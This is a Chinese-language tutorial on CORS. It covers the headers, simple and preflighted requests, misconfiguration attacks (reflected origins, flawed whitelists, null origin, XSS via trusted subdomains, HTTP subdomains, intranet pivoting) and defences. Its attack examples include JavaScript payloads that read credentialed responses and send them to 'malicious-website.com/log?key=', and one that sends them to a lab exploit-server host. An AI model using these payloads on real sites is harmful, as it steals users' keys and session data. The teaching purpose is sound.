



# CORS

## 介绍

CORS (跨源资源共享)， 是一种浏览器的机制，可以控制对位与给定域之外资源的访问，它扩展并增加了同源策略 (SOP)的灵活性。其思想是使用自定义的 HTTP 头部使得浏览器和服务器进行沟通，它允许浏览器向跨域服务器发出 `XMLHttpRequest` 请求，从而克服 AJAX 只能同源使用的限制。

> 相应常用的获取跨域资源的方法还有 JSONP, 还有 html 标签也能跨域，有以下几种 img, iframe,ink, script

## 危害

* 客户端缓存中毒：这种配置允许攻击者利用其他的漏洞，更改没有验证的字段，看是否正常回显。比如，一个应用返回数据报文头部中包含“X-User”这个字段，这个字段的值没有经过验证就直接输出到返回页面上，此时就可以结合XSS漏洞来利用。
* 服务端缓存中毒：利用CORS的错误配置注入HTTP头部，这可能会被服务器端缓存下来，比如制造存储型 xss
* 信息泄露

## 原理

`第三方网站服务器生成访问控制策略`，指导用户浏览器放宽 SOP 的限制，实现与指定的目标网站共享数据。

> 相比之下，CORS较JSONP更为复杂，JSONP只能用于获取资源（即只读，类似于GET请求），而CORS支持所有类型的HTTP请求，功能完善。

CORS跨域访问资源示意图：

<figure><figcaption></figcaption></figure>

CORS具体工作流程可分为三步，如图所示：

> 1. 请求方脚本从用户浏览器发送跨域请求。浏览器会自动在每个跨域请求中添加Origin头，用于声明请求方的源；
> 2. 资源服务器根据请求中Origin头返回访问控制策略(Access-Control-Allow-Origin响应头)，并在其中声明允许读取响应内容的源；
> 3. 浏览器检查资源服务器在Access-Control-Allow-Origin头中声明的源，是否与请求方的源相符，如果相符合，则允许请求方脚本读取响应内容，否则不允许；

在CORS协议中，请求方还可以指示浏览器在跨域请求中是否带credentials（包括Cookie，TLS客户端证书和代理验证信息）。如果跨域请求中带了credentials，那么浏览器会检查资源服务器返回的响应头中Access-Control-Allow-Credentials头是否设置为true，如果是，则允许请求方读取响应内容，否则，不允许。

## 基本用法

当b.com服务器想要与a.com共享资源内容时，它只需要在HTTP响应中添加如下响应头。这个响应头告诉浏览器放宽SOP限制，允许a.com脚本读取响应内容：

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://a.com
Access-Control-Allow-Credentials: true
```

a.com则可以通过以下JavaScript脚本，跨域读取b.com服务器的内容：

```javascript
var xhr=new XMLHttpRequest();
xhr.onreadystatechange = function() { 
    if (xhr.readyState == XMLHttpRequest.DONE) { 
        alert(xhr.responseText); 
    } 
}
xhr.open(“GET“, ”http://b.com/api“, true);
xhr.withCredentials = true;
xhr.send();
```

## 几个关键的 HTTP 头字段

* Access-Control-Allow-Origin：指定哪些外域可以访问本域资源；
* Access-Control-Allow-Credentials：指定浏览器是否将使用请求发送Cookie。仅当设置为true时，才会发送Cookie；
* Access-Control-Allow-Methods：指定可以使用哪些HTTP请求方法（GET、POST、PUT、DELETE等）来访问资源；
* Access-Control-Allow-Headers：指定可以在请求报文中添加的HTTP头字段；
* Access-Control-Max-Age：指定超时时间；

## 请求分类

浏览器将CORS请求分成两类，即简单请求和非简单请求

### 1. 简单请求

简单请求满足以下条件：

1. 使用下列方法之一：GET、HEAD、POST
2. HTTP的头信息不超出以下几种字段:Accept、Accept-Language、Content-Language、Content-Type（其值仅限于：application/x-www-form-urlencoded、multipart/form-data、text/plain）、

简单请求如图所示，浏览器与服务器之间请求只进行了一次：

<figure><figcaption></figcaption></figure>

### 2. 非简单请求

简单地说就是简单请求以外的请求都算非简单请求。

不满足简单请求条件的请求则要先进行预检请求，即使用OPTIONS方法发起一个预检请求到服务器，用于浏览器询问服务器当前网页所在的域名是否在服务器允许访问的白名单中，以及允许使用哪些HTTP方法和字段等。只有得到服务器肯定的相应，浏览器才会发送正式的XHR请求，否则报错。

关于预检请求，需要注意一下两点：

* 预检请求对JS来说是透明的，即JS获取不到预检请求的任何信息；
* 预检请求并不是每次请求都发生，服务端设置的Access-Control-Max-Age头部指定了预检请求的有效期，在有效期内的非简单请求不需要再次发送预检请求；

非简单请求如下所示：

<figure><figcaption></figcaption></figure>

## 跨域场景

* 比如后端开发完一部分业务代码后，提供接口给前端用，在前后端分离的模式下，前后端的域名是不一致的，此时就会发生跨域访问的问题。
* 程序员在本地做开发，本地的文件夹并不是在一个域下面，当一个文件需要发送ajax请求，请求另外一个页面的内容的时候，就会跨域。
* 电商网站想通过用户浏览器加载第三方快递网站的物流信息。
* 子站域名希望调用主站域名的用户资料接口，并将数据显示出来

## 攻击

### 1. 服务器从客户端指定的 Origin HTTP 头生成 ACAO HTTP 头

一些应用程序需要提供对许多其他域的访问。维护允许的域列表需要持续的努力，任何错误都有破坏功能的风险。因此，一些应用程序采用了有效地允许从任何其他域进行访问的简单方法

一种方法是从请求中读取 Origin 标头，并包含一个响应标头，说明允许请求源。例如，考虑接收以下请求的应用程序：

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

响应：

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

因为应用程序在标头中反映了任意来源`Access-Control-Allow-Origin`，这意味着绝对任何域都可以访问来自易受攻击域的资源。如果响应包含任何敏感信息，例如 API 密钥或 CSRF 令牌，您可以通过在您的网站上放置以下脚本来检索这些信息：

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

### 2. 解析 Origin HTTP 头出错

一些支持从多个来源访问的应用程序通过使用允许来源的白名单来实现。收到 CORS 请求时，会将提供的来源与白名单进行比较。如果来源出现在白名单上，那么它会反映在`Access-Control-Allow-Origin`标头中，以便授予访问权限。例如，应用程序收到一个正常的请求，如：

```http
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

该应用程序根据其允许的来源列表检查提供的来源，如果它在列表中，则按如下方式反映来源：

```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

实施 CORS 来源白名单时经常会出现错误。一些组织决定允许从其所有子域（包括未来尚未存在的子域）进行访问。并且一些应用程序允许从各种其他组织的域（包括它们的子域）进行访问。这些规则通常通过匹配 URL 前缀或后缀，或使用正则表达式来实现。实施中的任何错误都可能导致访问被授予非预期的外部域。

例如，假设应用程序授予对所有以以下结尾的域的访问权限：

```xml
normal-website.com
```

攻击者可能能够通过注册域来获得访问权限：

```xml
 hackersnormal-website.com
```

或者，假设一个应用程序授予对以以下开头的所有域的访问权限

```xml
normal-website.com
```

攻击者可能能够使用域获得访问权限：

```xml
normal-website.com.evil-user.net
```

### 3. 列入白名单的 null 值

Origin 标头的规范支持值 null。 在各种异常情况下，浏览器可能会在 Origin 标头中发送 null 值：

* 跨源重定向。
* 来自序列化数据的请求。
* 使用 file 请求：协议。
* 沙盒化跨源请求。

某些应用程序可能会将`null`来源列入白名单以支持应用程序的本地开发。例如，假设应用程序收到以下跨域请求：

```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

服务器响应：

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

在这种情况下，攻击者可以使用各种技巧来生成包含Origin 标头 中的值的跨源请求。这样就会满足白名单，导致跨域访问。例如，这可以使用以下`iframe`形式的沙盒跨源请求来完成：

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

### 4. 通过 CORS 信任关系 利用 XSS

即使是“正确”配置的 CORS 也会在两个来源之间建立信任关系。如果网站信任易受跨站点脚本 ( [XSS](https://portswigger.net/web-security/cross-site-scripting) ) 攻击的来源，则攻击者可以利用 XSS 注入一些使用 CORS 的 JavaScript 从信任易受攻击的应用程序的站点检索敏感信息。

鉴于以下要求:

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

如果服务器响应：

```http
TTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

然后发现 XSS 漏洞的攻击者`subdomain.vulnerable-website.com`可以使用它来检索 API 密钥，使用如下 URL

```xml
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

### 5. 使用配置不当的 CORS 破坏 TLS

假设一个严格使用 HTTPS 的应用程序也将一个使用纯 HTTP 的受信任子域列入白名单。例如，当应用程序收到以下请求时：

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

应用程序响应：

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

在这种情况下，能够拦截受害者用户流量的攻击者可以利用 CORS 配置来破坏受害者与应用程序的交互。此攻击涉及以下步骤：

* 受害用户发出任何普通的 HTTP 请求
*   攻击者注入重定向到：

    ```xml
    http://trusted-subdomain.vulnerable-website.com
    ```
* 受害者的浏览器遵循重定向
*   攻击者拦截纯 HTTP 请求，并返回包含 CORS 请求的欺骗响应：

    ```xml
    https://vulnerable-website.com
    ```
*   受害者的浏览器发出 CORS 请求，包括来源：

    ```xml
    http://trusted-subdomain.vulnerable-website.com
    ```
* 应用程序允许该请求，因为这是一个列入白名单的来源。请求的敏感数据在响应中返回。
* 攻击者的欺骗页面可以读取敏感数据并将其传输到攻击者控制下的任何域。

即使易受攻击的网站在使用 HTTPS 方面非常稳健，没有 HTTP 端点并且所有 cookie 都标记为安全，这种攻击也是有效的。

```javascript
<script>
    document.location="http://stock.0aaa0010034661cec04d18560023006f.web-security-academy.net/?productId=4
    <script>
    var req = new XMLHttpRequest(); 
    req.onload = reqListener; 
    req.open('get','https://0aaa0010034661cec04d18560023006f.web-security-academy.net/accountDetails',true); 
    req.withCredentials = true;
    req.send();
    function reqListener() {location='https://exploit-0a94007903df6156c086170201530080.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>
    &storeId=1"
</script>
```

### 6. 没有凭据的内部网络和 CORS

大多数 CORS 攻击依赖于响应标头的存在：

```xml
Access-Control-Allow-Credentials: true
```

如果没有该标头，受害用户的浏览器将拒绝发送他们的 cookie，这意味着攻击者将只能访问未经身份验证的内容，他们可以通过直接浏览目标网站轻松访问这些内容.

但是，有一种常见情况是攻击者无法直接访问网站：当它是组织内部网的一部分并且位于私有 IP 地址空间内时。 内部网站的安全标准通常低于外部网站，使攻击者能够找到漏洞并获得进一步的访问权限。 例如，私有网络内的跨域请求可能如下所示：

```http
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```

服务器响应

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```

应用程序服务器信任来自任何没有凭据的来源的资源请求。如果私有 IP 地址空间内的用户访问公共互联网，则可以从使用受害者浏览器作为访问内联网资源的代理的外部站点执行基于 CORS 的攻击.

[攻击环境](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack)

## 防御

* 没有必要就不开启 CORS
* 仅仅允许安全的协议，有必要验证协议以确保不允许来自不安全通道（HTTP）的交互，否则中间人(MitM)将绕过应用是所使用的HTTPS。
* 要尽可能的返回”Vary: Origin”这个头部，以避免攻击者利用浏览器缓存
* 如果可能的话避免使用“Credentials”头，由于“Access-Control-Allow-Credentials”标头设置为“true”时允许跨域请求中带有凭证数据，因此只有在严格必要时才应配置它。此头部也增加了CSRF攻击的风险;因此，有必要对其进行保护
* 限制使用的方法
* 限制缓存的时间
*   正确配置跨域请求

    ```
    如果 Web 资源包含敏感信息，则应在Access-Control-Allow-Origin标头中正确指定来源
    ```
*   只允许受信任的站点

    ```
    这看起来很明显，但Access-Control-Allow-Origin标头中指定的来源应该只是受信任的站点。特别是，动态反映未经验证的跨源请求的来源很容易被利用，应该避免。
    ```
*   避免将 null 列入白名单

    ```
    避免使用标头Access-Control-Allow-Origin: null。来自内部文档和沙盒请求的跨域资源调用可以指定null来源。应根据私有和公共服务器的可信来源正确定义 CORS 标头。
    ```
*   避免在内部网络使用通配符

    ```
    避免在内部网络中使用通配符。当内部浏览器可以访问不受信任的外部域时，仅信任网络配置来保护内部资源是不够的。
    ```
*   CORS 不能替代服务器端安全策略

    ```
    CORS 定义了浏览器行为，并且永远不会替代敏感数据的服务器端保护 - 攻击者可以直接伪造来自任何受信任来源的请求。因此，除了正确配置 CORS 之外，Web 服务器还应继续对敏感数据应用保护，例如身份验证和会话管理。
    ```

## 参考

* [portswigger 学院](https://portswigger.net/web-security/cors)
* [CORS跨域漏洞总结](http://www.mi1k7ea.com/2019/08/18/CORS%E8%B7%A8%E5%9F%9F%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#0x02-CORS%E8%B7%A8%E5%9F%9F%E6%BC%8F%E6%B4%9E)
* [深入理解 CORS 漏洞](https://yinwc.github.io/2020/11/20/%E6%B7%B1%E5%85%A5%E7%90%86%E8%A7%A3CORS%E6%BC%8F%E6%B4%9E/)
* [CORS 漏洞](https://ninjia.gitbook.io/secskill/web/cors)
* [CORS 漏洞详解](https://www.freebuf.com/vuls/323358.html)
